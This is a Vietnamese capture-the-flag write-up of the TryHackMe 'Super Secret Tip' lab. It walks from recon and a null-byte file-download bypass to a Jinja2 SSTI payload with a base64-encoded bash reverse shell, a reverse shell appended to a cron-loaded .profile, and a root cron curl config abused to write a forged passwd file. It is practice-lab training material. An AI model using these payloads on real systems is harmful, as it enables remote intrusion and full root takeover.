

<div align="center">
    <h1> TryHackMe Super Secret TIp Writeup 
</h1>
</div>

## 🚀 1. Khởi động target


## 🔍 2. Recon

- Sử dụng `nmap` quét mục tiêu.


- Cổng `22` cho dịch vụ `SSH` và cổng `7777` cho http được mở.


- Tiếp tục sử dụng `gobuster` để quét thư mục ẩn trên mục tiêu.


- Thu được 2 thư mục ẩn là `cloud` và `debug`.

- Tại `cloud` là một form cho phép chọn và dowload file.

- Tuy nhiên khi dowload thử thì nhận thấy một số file quan trọng là `my-passwords.txt` và `secret.txt` không cho phép tải, các file còn lại không có nhiều thông tin


- Phía trang `debug` gồm 2 form nhập, trong đó có một form hiển thị `1337*1337`, có thể là lời gợi ý cho lỗ hổng `SSTI`


## 🔑3. Khai thác
- Quay lại trang cloud, dùng `Burp Suite` bắt lại request thì nhận thấy nó cho phép chỉ định file dowload


- Từ thông tin từ `template.py` tải được từ trên, nhận thấy framework được sử dụng cho trang web này là `Flask`.


- Trong `Flask`, file mã nguồn thường có tên là `app.py`


- Tuy nhiên khi tải thử thì không thành công

- Sử dụng `Wfuzz` brute force tên file, ta tìm được `source.py`

```bash
wfuzz -u http://10.10.220.82:7777/cloud -X POST -d 'download=FUZZ.py' -w ~/Downloads/SecLists/Discovery/Web-Content/common.txt --hc 404
```


- Thành công tải được file mã nguồn.


```py
from flask import *
import hashlib
import os
import ip # from .
import debugpassword # from .
import pwn

app = Flask(__name__)
app.secret_key = os.urandom(32)
password = str(open('supersecrettip.txt').readline().strip())

def illegal_chars_check(input):
    illegal = "'&;%"
    error = ""
    if any(char in illegal for char in input):
        error = "Illegal characters found!"
        return True, error
    else:
        return False, error

@app.route("/cloud", methods=["GET", "POST"]) 
def download():
    if request.method == "GET":
        return render_template('cloud.html')
    else:
        download = request.form['download']
        if download == 'source.py':
            return send_file('./source.py', as_attachment=True)
        if download[-4:] == '.txt':
            print('download: ' + download)
            return send_from_directory(app.root_path, download, as_attachment=True)
        else:
            return send_from_directory(app.root_path + "/cloud", download, as_attachment=True)
            # return render_template('cloud.html', msg="Network error occurred")

@app.route("/debug", methods=["GET"]) 
def debug():
    debug = request.args.get('debug')
    user_password = request.args.get('password')
    
    if not user_password or not debug:
        return render_template("debug.html")
    result, error = illegal_chars_check(debug)
    if result is True:
        return render_template("debug.html", error=error)

    # I am not very eXperienced with encryptiOns, so heRe you go!
    encrypted_pass = str(debugpassword.get_encrypted(user_password))
    if encrypted_pass != password:
        return render_template("debug.html", error="Wrong password.")
    
    
    session['debug'] = debug
    session['password'] = encrypted_pass
        
    return render_template("debug.html", result="Debug statement executed.")

@app.route("/debugresult", methods=["GET"]) 
def debugResult():
    if not ip.checkIP(request):
        return abort(401, "Everything made in home, we don't like intruders.")
    
    if not session:
        return render_template("debugresult.html")
    
    debug = session.get('debug')
    result, error = illegal_chars_check(debug)
    if result is True:
        return render_template("debugresult.html", error=error)
    user_password = session.get('password')
    
    if not debug and not user_password:
        return render_template("debugresult.html")
        
    # return render_template("debugresult.html", debug=debug, success=True)
    
    # TESTING -- DON'T FORGET TO REMOVE FOR SECURITY REASONS
    template = open('./templates/debugresult.html').read()
    return render_template_string(template.replace('DEBUG_HERE', debug), success=True, error="")

@app.route("/", methods=["GET"])
def index():
    return render_template('index.html')

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=7777, debug=False)
```
- Phân tích mã nguồn, thấy rằng mật khẩu được lấy trong file `supersecrettip.txt`


- Tải file `supersecrettip.txt` tương tự như cách tải `source.py`, nhận được mật khẩu tuy nhiên dưới dạng `byte string`.


- Có vẻ nó còn được mã hóa gì đó nữa. Có lẽ là được `XOR` theo như gợi ý ở dòng sau. (Các chữ in hoa trong comment)


- Tuy nhiên nếu được `XOR` cũng cần passpharse để giải mã và ta chưa tìm thấy.

- Tiếp tục đọc file mã nguồn, thấy rằng nó import module debugpassword.


- Thử tải file này về vẫn theo các cách ở trên. Tuy nhiên trả về lỗi 404.


- Quay lại đọc source, ta thấy rằng nó chỉ cho phép tải file `soure.py` và những file đuôi `txt`.


- Sau khi tìm hiểu, thấy được rằng có thể bypass điều này thông qua việc chèn null byte `debugpassword.py%00.txt`, khi đó chương trình vẫn hiểu ta đang yêu cầu tải file `txt` trong khi đó file thực tế là `debugpassword.py`.


- Trong file tải về có vẻ là nội dung pass là `ayham`

- Tiếp theo đổi byte string trên thành dạng hex

```bash
data = b' \x00\x00\x00\x00%\x1c\r\x03\x18\x06\x1e'
hex_string = data.hex()
print(hex_string)
```


- Giải mã XOR bằng CyberChef, ta nhận được mật khấu: `AyhamDeebugg`


- Nhập mật khẩu vào trang debug, thành công thực thi debug


- Tuy nhiên ta không xem được kết quả debug, theo như nội dung trong source thì có vẻ nó được lưu trong `debugresult`

```py
app.route("/debugresult", methods=["GET"]) 
def debugResult():
    if not ip.checkIP(request):
        return abort(401, "Everything made in home, we don't like intruders.")
    
    if not session:
        return render_template("debugresult.html")
```

- Tuy nhiên không có quyền truy cập


- Thử tải tiếp module `ip` về xem có gì không



- Theo thông tin từ file `ip`, nó kiểm tra nội host ip có phải localhost không, nếu có thì được truy cập vào kết quả debug, với host_ip được lấy từ trường `X-Forwarded-For`.

- Việc cần làm bây giờ là thêm trường `X-Forwarded-For:127.0.0.1` vào request


- Tuy nhiên vẫn chưa truy cập được.

- Ta thử lại request với cookie thay đổi lấy được khi thực hiện debug thành công


- Thành công hiển thị kết quả debug (rew là kí tự ta ta nhập ở trên)

- Đến bước này, ta khai thác `SSTI` như đã dự đoán ở trên.

- Thử nhập payload {{ 7*7 }}


- Kết quả phép toán được thực thi


- https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/jinja2-ssti.html?highlight=SSTI#jinja2-ssti


- Tạo được payload sau để khai thác:

```bash
{{"".__class__.__mro__[1].__subclasses__()[415]("echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjguMzEuMjA5LzQ0NDQgMD4mMQ== | base64 -d | bash",shell=True,stdout=-1).communicate()}}
```


- Thành công lấy được reverse shell


- Lấy được flag đầu tiên


- Chạy `linpeas` và `pspy64` trên mục tiêu để phân tích.


- Ta phát hiện thấy có 2 cronjob là `site_check` và `health_check` được chạy bởi root và F30s.


- Bên cạnh đó là tệp `.profile` có thể ghi nằm trong F30s.

- Trong khi đó, cronjob F30s chạy có tùy chọn `-l`, khi đó, file `.profile` sẽ được load.

- Vì vậy có thể chèn reverse shell vào file này.

```bash
echo 'bash -c "bash -i >& /dev/tcp/10.8.31.209/1234 0>&1"' >> /home/F30s/.profile
```


- Thành công lấy được shell của `F30s`

- Check file `site_check`, file này được chạy bởi `root`


- Đây là một file cấu hình sẽ được thực thi với `curl -K`.

- Vì vậy thử thay đổi để tạo một file mới

```bash
url = "http://10.8.31.209:4444/check.txt"
output = "/tmp/check.txt"
```


- Sau khi cronjob chạy, một file mới là check.txt được tạo dưới quyền root


- Vậy mục tiêu là tạo một file passwd giả mạo với root mới tên là `root1`.


- Tạo file thành công.


- Chuyển qua tài khoản root `root1` vừa tạo, thành công lấy được quyền root.


- Lấy được 2 file `flag2.txt` và `secret.txt` nhưng vẫn đều cần giải mã :((((


- Dựa vào những gợi ý trong `secret-tip.txt`, có vẻ pass cho file secet là `root`


- Nhận được một passpharse `1109200013XX`


- Khi lấy được pass này để giải mã flag2 thì thấy bản rõ bị lỗi.

- Lúc này mới nhận ra 2 kí tự XX ở cuối cần được thêm vào để giải mã .

- Sau khi thử các kết quả khác nhau thì `110920001386` là kết quả đúng.


